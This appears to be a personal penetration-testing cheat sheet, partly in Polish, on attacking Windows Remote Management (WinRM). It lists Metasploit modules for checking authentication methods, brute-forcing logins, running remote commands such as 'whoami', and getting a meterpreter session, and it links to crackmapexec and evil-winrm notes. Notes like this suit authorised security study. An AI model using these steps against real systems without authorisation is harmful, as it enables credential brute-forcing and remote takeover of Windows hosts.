 # WinRM (HTTP:5985/HTTPS:5986)
Windows Remote Management Protocol - Windows remote management protocol that can be used to facilitate remote access with Windows systems. (Execute commands on remote machine)

## $ msf

```bash
# czy winrm jest włączony i jekie metody logowania
use auxiliary/scanner/winrm/winrm_auth_methods

# bruteforce winrm
use auxiliary/scanner/winrm/winrm_login

# Execute command on the target server
auxiliary/scanner/winrm/winrm_cmd

# exploit na meterpreter
exploit/windows/winrm/winrm_script_exec
```

## $ crackmapexec
![[crackmapexec#WinRM (T 5985/5986)]]

## $ evil-winrm

![[notatki/PenTest/Tools/evil-winrm#Windows Remote Management shell for pentesting.]]

## $ msf>winrm_auth_methods

This is very important to know, before we try to connect to the WinRM service. We need to use
a valid authentication method while connecting to the service

```bash
use auxiliary/scanner/winrm/winrm_auth_methods
```

## $ msf>winrm_cmd

This module runs arbitrary Windows commands using the WinRM Service

```bash
use auxiliary/scanner/winrm/winrm_cmd
...
set CMD whoami
```

## $ msf>winrm_script_exec

sesja meterpreter
